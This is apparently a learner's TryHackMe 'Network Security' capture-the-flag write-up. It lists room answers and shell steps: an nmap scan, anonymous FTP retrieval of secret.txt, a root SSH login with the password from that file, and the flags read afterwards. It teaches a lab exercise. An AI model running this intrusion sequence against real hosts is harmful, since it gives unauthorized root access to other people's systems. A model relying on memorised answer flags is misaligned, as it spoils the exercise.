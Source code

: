 # THM - Network Security

## Task 1

> host firewalls


## Task 2

> recon


## Task 3

```shell
nmap 10.10.160.200

ftp 10.10.160.200
	anonymous
	ls
	get secret.txt
	exit

cat secret.txt
```


### Task 3.1

```shell
cat secret.txt
```

> ABC789xyz123


### Task 3.2

```shell
ssh root@10.10.160.200
	ABC789xyz123
	
	pwd
	ls
	cat flag.txt
```

> THM{FTP_SERVER_OWNED}


### Task 3.3

```shell
	cd /home
	ls
	cd librarian
	pwd
	ls
	cat flag.txt
```

> THM{LIBRARIAN_ACCOUNT_COMPROMISED}



